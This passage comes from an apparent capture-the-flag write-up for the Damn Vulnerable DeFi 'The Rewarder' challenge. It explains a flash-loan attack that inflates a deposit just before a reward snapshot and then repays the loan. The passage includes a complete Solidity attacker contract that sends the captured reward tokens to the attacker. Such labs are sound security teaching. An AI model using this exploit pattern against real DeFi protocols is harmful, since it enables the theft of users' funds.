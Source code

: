 `!_hasRetrievedReward(msg.sender)` already returns `true`, `rewards > 0` is returning `false`. All we need to do now is take a huge flash loan, `deposit` liquidity that will create a snapshot of the current balances state. But first don't forget to `appove` the amount of tokens to deposit to `TheRewarderPool`.

3. Now `withdaw` the deposited tokens and transfer them to `TheFlashLoanerPool` to complete the flash loan.

4. After receiving the reward tokens, transfer them to our EOA.

Here's how our code should look like:

```sol:contracts/attacker-contracts/the-rewarder/RewardAttacker.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "../../the-rewarder/FlashLoanerPool.sol";
import "../../the-rewarder/RewardToken.sol";
import "../../the-rewarder/TheRewarderPool.sol";

contract RewardAttacker {
    FlashLoanerPool flashLoanerPool;
    RewardToken rewardToken;
    TheRewarderPool theRewarderPool;
    DamnValuableToken liquidityToken;

    constructor(
        FlashLoanerPool flashLoanerPoolAddress,
        RewardToken rewardTokenAddress,
        TheRewarderPool theRewarderPoolAddress,
        DamnValuableToken liquidityTokenAddress
    ) {
        flashLoanerPool = flashLoanerPoolAddress;
        rewardToken = rewardTokenAddress;
        theRewarderPool = theRewarderPoolAddress;
        liquidityToken = liquidityTokenAddress;

    }

    function attack(uint256 amount) external {
        // take flash loan from flash loaner pool
        flashLoanerPool.flashLoan(amount);
    }

    // called from FlashLoanerPool.flashLoan
    function receiveFlashLoan(uint256 amount) external {
        require(msg.sender == address(flashLoanerPool), "msg.sender must be pool");

        // deposit in rewarder pool
        liquidityToken.approve(address(theRewarderPool), amount);
        theRewarderPool.deposit(amount);

        // withdraw amount to repay loan
        theRewarderPool.withdraw(amount);
        liquidityToken.transfer(address(flashLoanerPool), amount);

        // transfer tokens to attacker
        rewardToken.transfer(
            tx.origin,
            rewardToken.balanceOf(address(this))
        );
    }
}
```
